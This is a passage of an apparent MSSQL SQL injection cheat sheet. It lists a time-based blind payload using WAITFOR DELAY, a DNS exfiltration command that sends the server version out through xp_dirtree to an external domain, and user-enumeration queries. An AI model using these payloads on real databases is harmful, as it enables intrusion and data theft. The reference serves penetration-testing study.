 
## Blind - Time based
([ftb](/articles/owasp10/SQLi/#time-based))

| Function | Command | Ref. |
| --- | --- |---|
| IF query (10sec) | `IF(^^boolean query^^) WAITFOR DELAY '0:0:10';`{:.language-sql .highlight}|  |
|===|===|===|

## Out-of-band - DNS
([ftb](/articles/owasp10/SQLi/#dns-exfiltration))

| Function | Command | Ref. |
| --- | --- |---|
| Test DNS query | `exec master..xp_dirtree '//Subdomain.domain.com/x';`{:.language-sql .highlight} |  |
| DNS Exfiltration | `declare @p varchar(1024);set @p=(SELECT @@version);exec('master..xp_dirtree "//'+@p+'.domain.com/x"');`{:.language-sql .highlight} |
|===|===|===|


# MSSQL Commands

## General

| Function | Command | Ref. |
| --- | --- | --- |
| Block Comment | `/*comment is here (can spread multiple lines)*/`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/slash-star-comment-transact-sql) |
| Comment | `-- comment here, can go at end of line or it's own line`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/t-sql/language-elements/comment-transact-sql) |
|===|===|===|

## User Enumeration

| Function | Command | Ref. |
| --- | --- | --- |
| Get SQL User | `SELECT CURRENT_USER;`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/t-sql/functions/current-user-transact-sql) |
|  |`SELECT USER_NAME();`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/t-sql/functions/user-name-transact-sql) |
|  |`SELECT USER;`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/t-sql/functions/user-transact-sql) |
|  |`SELECT SESSION_USER;`{:.language-sql .highlight}| [MS](https://docs.microsoft.com/en-us/sql/t-sql/functions/session-user-transact-sql) |
| Get System User | `SELECT SYSTEM_USER;`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/t-sql/functions/system-user-transact-sql) |
|  |`SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID;`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysprocesses-transact-sql) |
|  |`SELECT loginame FROM sysprocesses WHERE spid = @@SPID;`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-sysprocesses-transact-sql) |
|  | `SELECT SUSER_NAME();`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/t-sql/functions/suser-name-transact-sql) |
|  |  `SELECT SUSER_SNAME();`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/t-sql/functions/suser-sname-transact-sql) |
| Get Users | `SELECT name FROM master.sys.server_principals;`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-server-principals-transact-sql) |
|  | `SELECT name FROM sys.server_principals;`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/relational-databases/system-catalog-views/sys-server-principals-transact-sql) |
|  | `SELECT name FROM master..syslogins;`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql) |
|  | `SELECT name FROM syslogins;`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql) |
| Get Users by role | `SELECT name FROM syslogins WHERE ^^role name^^ = ‘1’;`{:.language-sql .highlight} | [MS](https://docs.microsoft.com/en-us/sql/relational-databases/system-compatibility-views/sys-syslogins-transact-sql) |